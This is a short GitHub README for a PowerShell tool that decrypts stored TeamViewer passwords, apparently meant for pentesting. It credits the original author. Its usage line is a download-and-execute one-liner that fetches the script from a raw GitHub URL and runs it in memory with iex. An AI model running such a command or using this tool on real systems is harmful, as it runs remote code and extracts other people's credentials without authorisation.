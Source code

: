 # TeamViewerDecrypt - Powershell

Just a quick dirty Powershell implementation of [whynotsecurity](https://github.com/whynotsecurity/)´s Teamviewer decrypt script.

All credit goes to him, blog post can be found here: https://whynotsecurity.com/blog/teamviewer/

Not all passwords in every version can be decrypted using this script. I could not decrypt Teamviewer v14/v15 PermanentPasswords so far.

Usage as simple as:

```
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/TeamViewerDecrypt/master/TeamViewerDecrypt.ps1');TeamviewerDecrypt
```

As always only use for educational or pentesting purposes. :)
